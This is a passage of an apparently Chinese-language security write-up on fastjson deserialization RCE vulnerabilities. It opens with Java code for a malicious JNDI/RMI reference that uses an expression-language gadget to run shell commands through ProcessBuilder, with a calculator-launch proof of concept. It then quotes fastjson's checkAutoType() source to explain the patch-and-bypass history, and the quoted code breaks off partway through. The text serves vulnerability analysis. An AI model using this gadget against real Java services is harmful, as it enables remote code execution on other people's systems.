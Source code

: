 ```

        ref.add(new StringRefAddr("forceString", "x=eval"));

        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows

        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','open /Applications/Calculator.app/']).start()\")"));



        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);

        registry.bind("Object", referenceWrapper);



    `}`

`}`
```

### fastjson RCE漏洞的历次修复与绕过

fastjson在曝出第一版的RCE漏洞之后，官方立马做了更新，于是就迎来了一个新的主角，checkAutoType()，在接下来的一系列绕过中都是和这个函数的斗智斗勇。

先看一下这个函数的代码

```
public Class&lt;?&gt; checkAutoType(String typeName, Class&lt;?&gt; expectClass, int features) `{`

    if (typeName == null) `{`

        return null;

    `}` else if (typeName.length() &gt;= 128) `{`

        throw new JSONException("autoType is not support. " + typeName);

    `}` else `{`

        String className = typeName.replace('$', '.');

        Class&lt;?&gt; clazz = null;

        int mask;

        String accept;

        if (this.autoTypeSupport || expectClass != null) `{`

            for(mask = 0; mask &lt; this.acceptList.length; ++mask) `{`

                accept = this.acceptList[mask];

                if (className.startsWith(accept)) `{`

                    clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, false);

                    if (clazz != null) `{`

                        return clazz;

```